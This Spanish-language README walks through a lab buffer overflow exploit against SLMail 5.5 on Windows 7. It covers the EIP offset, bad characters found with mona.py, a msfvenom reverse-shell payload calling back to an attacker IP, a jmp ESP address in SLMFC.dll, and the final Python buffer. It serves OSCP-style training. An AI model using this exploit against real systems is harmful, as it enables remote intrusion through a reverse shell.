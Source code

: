 # Buffer Overflow SLMail 5.5

Tutorial de buffer overflow en Windows de 32 bits con el programa SLMail 5.5. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Nota: El tutorial toma como base el video [¿Cómo explotar el Buffer Overflow del OSCP con éxito?](https://www.youtube.com/watch?v=sdZ8aE7yxMk)

Con pattern_create se genera un patron de carácteres 

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern](./img/buffer_pattern.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con SLMail, se pausará el programa darle al botón de play para que se reanude el flujo del programa

![attach](./img/attach.png)

Ejecutar el script en la máquina de atacante. En Immunity Debugger se pausará automaticamente el flujo de programa, en el campo EIP se muestra un dirección la cual sirve para determinar el offset para controlar el EIP.

![image](./img/eip_offset.png)  

con ``` pattern_offset -q dirección ``` se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 2607. 

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![moona_folder](./img/set_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos llamado bytearray.txt, que contiene los carácteres imprimibles. Para transferir el archivo de una maquina otra, desde la maquina atacante usar un servidor samba y con la maquina victima en cmd con el copy 

Maquina atacante

![smb_server](./img/smb_server.png)

Maquina victima

``` copy RutaDelArchivo \\IPmaquinaatacante\smbFolder\ ```

![smb_copy](./img/smb_copy.png)

![code_badchars](./img/badchars.png)

Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\SLMail\bytearray.bin -a direccion ``` para obtener un badchar)

![](./img/badchar_compare.png)


Con el comando ``` !mona bytearray -cpb "\x00\x0a" ``` se genera de nuevo los archivosc de bytearray sin los badchars especificados. Esto se  hace hasta que ya no aparezca ninguno

Una vez obtenidos los badchars ahora se crea un shell code que los omita

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -b "\x00\x0a\0xd" -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge SLMFC.dll
![mona_modules](./img/mona_modules.png)

![module_target](/img/module_target.png)


Se busca la dirección de jmp ESP en el módulo con

```
!mona find -s "\xff\xe4" -m SLMFC.DLL
```

![find_jmp](./img/find_jump_esp.png)

Se comprueba que la dirreción apunte a jmp ESP

![check_dir](./img/find_jump_esp_dir.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ```5f4a358f ->  8f354a5f ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell

```
    offset = b"A"*2607
    eip = b"\x8f\x35\x4a\x5f" #0x5f4a358f
    buffer = offset + eip  + b"\x90"*16 + shell_code
```

![reverse_shell](./img/reverse_shell.png)



